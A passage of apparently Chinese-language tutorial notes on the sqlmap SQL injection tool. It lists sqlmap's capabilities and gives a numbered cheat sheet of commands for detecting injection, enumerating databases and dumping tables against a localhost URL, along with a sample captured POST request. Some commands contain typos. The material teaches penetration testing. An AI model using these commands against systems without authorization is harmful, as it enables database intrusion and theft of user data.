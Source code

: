 - 完全支持MySQL、Oracle、PostgreSQL、Microsoft SQL Server、Microsoft Access、IBM DB2、SQLite、Firebird、Sybase、SAP MaxDB、HSQLDB和Informix等多种数据库管理系统。
- 完全支持布尔型盲注、时间型盲注、基于错误信息的注入、联合查询注入和堆查询注入。
- 在数据库证书、IP地址、端口和数据库名等条件允许的情况下支持不通过SQL注入点而直接连接数据库。
- 支持枚举用户、密码、哈希、权限、角色、数据库、数据表和列。
- 支持自动识别密码哈希格式并通过字典破解密码哈希。
- 支持完全地下载某个数据库中的某个表，也可以只下载某个表中的某几列，甚至只下载某一列中的部分数据，这完全取决于用户的选择。
- 支持在数据库管理系统中搜索指定的数据库名、表名或列名
- 当数据库管理系统是MySQL、PostgreSQL或Microsoft SQL Server时支持下载或上传文件。
- 当数据库管理系统是MySQL、PostgreSQL或Microsoft SQL Server时支持执行任意命令并回现标准输出。

安装Sqlmap: git clone https://github.com/sqlmapproject/sqlmap.git, 执行命令: python sqlmap.py 即可使用

#### 3.5.2. 常见Sqlmap命令
- 1. python sqlmap.py -h 	帮助
- 2. python sqlmap.py -u "http://localhost/user.do?method=login&root=1"  检测URL是否存在SQL注入漏洞。u表示url,后面是可能存在sql注入的url。如果发现SQL注入漏洞，sqlmap会提示是否进行进一步操作
- 3. python sqlmap.py -u "..." --users  (已经检测到SQL注入漏洞)Linux系统用户有哪些(受运行数据库的用户权限限制)
- 4. python sqlmap.py -u "..." --dbs  	(已经检测到SQL注入漏洞)查看有哪些数据库
- 5. python sqlmap.py -u "..." --current-user   --current-db	(已经检测到SQL注入漏洞)当前的用户和数据库
- 6. python sqlmap.py -u "..." --tables -D "users"		(已经检测到SQL注入漏洞)数据库users的数据表有哪些
- 7. python sqlmap.py -u "..." --columns- T "t_user" -D "users"	(已经检测到SQL注入漏洞)数据库users中表t_user有哪些字段
- 8. python sqlmap.py -u "..." --count- T "t_user" -D "users"	(已经检测到SQL注入漏洞)数据库users中表t_user数据量
- 9. python sqlmap.py -u "..." --dump - T "t_user" -D "users"	(已经检测到SQL注入漏洞)数据库users中表t_user数据，保存到本地(默认是cvs格式)，并显示输出全部
- 10. python sqlmap.py -u "..." --dump - T "t_user" -D "users" satrt 1 stop 10	(已经检测到SQL注入漏洞)数据库users中表t_user数据，保存到本地(默认是cvs格式)，导出的数据是第一至第十行的数据。
- 11. python sqlmap.py -u "..." --dump-all -D "users" (已经检测到SQL注入漏洞)导出数据库users全部的数据表
- 12. python sqlmap.py -r "post.txt"	用于将post请求的请求信息写入文件当中进行操作。下面就是文本的内容
```
POST http://localhost/user.do?method=login HTTP/1.1
Host: localhost
Connection: keep-alive
Content-Length: 33
Cache-Control: max-age=0
Origin: http://localhost
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/55.0.2883.87 UBrowser/6.2.3964.2 Safari/537.36
Content-Type: application/x-www-form-urlencoded
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Referer: http://localhost/user.do?method=logout
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.8
Cookie: JSESSIONID=B340358681A38D5C3940E36EAFF7D7BA

name=aa&password=aa&verification=
```

- 13. python sqlmap.py -u "..." --data "username=zx&pwd=123"	用于post请求，data的内容为post请求的参数


#### 3.5.3. 实际操作
注意： 实际操作中，我们只需确定一个sql注入点以及基本的信息就可以完成进行SQL注入的操作了。
高级参数用法: level 以及risk
其他的sql注入工具: 啊D、明小子、Pangolin（穿山甲）、havij（胡萝卜）等
